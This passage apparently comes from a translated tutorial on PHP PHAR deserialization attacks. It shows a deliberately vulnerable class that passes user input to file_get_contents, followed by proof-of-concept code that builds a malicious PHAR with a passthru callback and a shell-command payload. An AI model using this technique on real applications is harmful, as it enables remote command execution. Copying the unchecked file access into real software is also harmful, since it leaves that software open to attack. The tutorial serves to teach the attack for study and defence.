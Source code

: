 这个类后来包含在主`Editor.php`文件中。

```
<?php
include 'PDFGenerator.php';
class Editor {
public function __construct() {
    global $argv;
    $this->image = @file_get_contents ($argv[1]);
    // $argv[1] - is there so you can run all this code locally
    // Think of it as the file name of the image you want to add to the document   
    if ($this->image) {
        echo "File found! \n";
    } else {
        echo "File not found! \n";
    }
}                                                                                        }
$obj = new Editor();
?>
```

用一个不存在的文件运行一个测试，注意行为是我们所期望的:

![test result phar exploit](img/95697b7c08893049bbcd493f3080b86a.png)

现在，让我们使用前面介绍的方法构建一个 PHAR 档案。它的元数据将是 PDFGenerator 类的一个对象。

用下面的代码创建一个名为`phar_gen.php`的新文件:

```
<?php
class PDFGenerator { }
// Create a new instance of the Dummy class and modify its property
$dummy = new PDFGenerator();
$dummy->callback = "passthru";
$dummy->fileName = "uname -a > pwned"; //our payload

// Delete any existing PHAR archive with that name
@unlink("poc.phar");

// Create a new archive
$poc = new Phar("poc.phar");

// Add all write operations to a buffer, without modifying the archive on disk
$poc->startBuffering();

// Set the stub
$poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

// Add a new file in the archive with "text" as its content
$poc["file"] = "text";

// Add the dummy object to the metadata. This will be serialized
$poc->setMetadata($dummy);

// Stop buffering and write changes to disk
$poc->stopBuffering();
?>
```

